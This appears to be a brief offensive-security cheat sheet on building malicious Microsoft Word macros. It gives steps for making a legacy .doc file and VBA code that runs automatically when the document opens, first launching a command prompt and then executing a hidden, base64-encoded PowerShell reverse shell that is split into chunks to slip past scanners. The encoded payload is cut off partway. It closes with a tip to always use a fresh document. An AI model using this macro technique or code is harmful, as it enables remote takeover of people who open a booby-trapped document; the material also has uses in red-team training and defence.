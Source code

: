 # How to create Macros for MS Office

1. empty document in word and save as 97-2003 doc
2. View - Macros
3. Create and select current document

## CMD

```python

Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "cmd"
  
End Sub
```

## Reverse shell

```python
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    #use splitter.py 
    #str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."
    #n = 50
    #for i in range(0, len(str), n):
	#print "Str = Str + " + '"' + str[i:i+n] + '"'

    Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
    Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB"
    #etc.

    CreateObject("Wscript.Shell").Run Str
End Sub

```

* Always create a new .doc, don't reuse the old ones